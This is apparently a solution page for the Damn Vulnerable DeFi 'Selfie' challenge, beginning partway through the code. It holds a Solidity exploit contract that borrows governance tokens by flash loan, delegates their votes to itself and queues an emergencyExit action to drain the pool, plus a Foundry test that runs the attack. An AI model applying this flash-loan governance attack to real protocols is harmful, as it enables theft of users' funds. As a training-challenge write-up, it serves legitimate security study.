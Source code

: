 ```solidity
        address _token
    ){
        selfiePool = SelfiePool(_selfiePool);
        simpleGovernance = SimpleGovernance(_simpleGovernance);
        damnValuableToken = DamnValuableVotes(_token);
    }
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32){
        damnValuableToken.delegate(address(this));
        uint _actionId = simpleGovernance.queueAction(
            address(selfiePool),
            0,
            data
        );
        actionId = _actionId;
        IERC20(token).approve(address(selfiePool), amount+fee);
        return CALLBACK_SUCCESS;
    }

    function exploitSetup(address recovery) external returns(bool){
        uint amountRequired = 1_500_000e18;
        bytes memory data = abi.encodeWithSignature("emergencyExit(address)", recovery);
        require(selfiePool.flashLoan(IERC3156FlashBorrower(address(this)), address(damnValuableToken), amountRequired, data));
        return true;
    }
    function exploitCloseup() external returns(bool){
        bytes memory resultData = simpleGovernance.executeAction(actionId);
        return true;
    }
}
```

```solidity
	
		function test_selfie() public checkSolvedByPlayer {   
        SelfieExploiter exploiter = new SelfieExploiter(
            address(pool),
            address(governance),
            address(token)
        );
        require(exploiter.exploitSetup(address(recovery)));
        vm.warp(block.timestamp + 2 days);
        require(exploiter.exploitCloseup());
    }
```
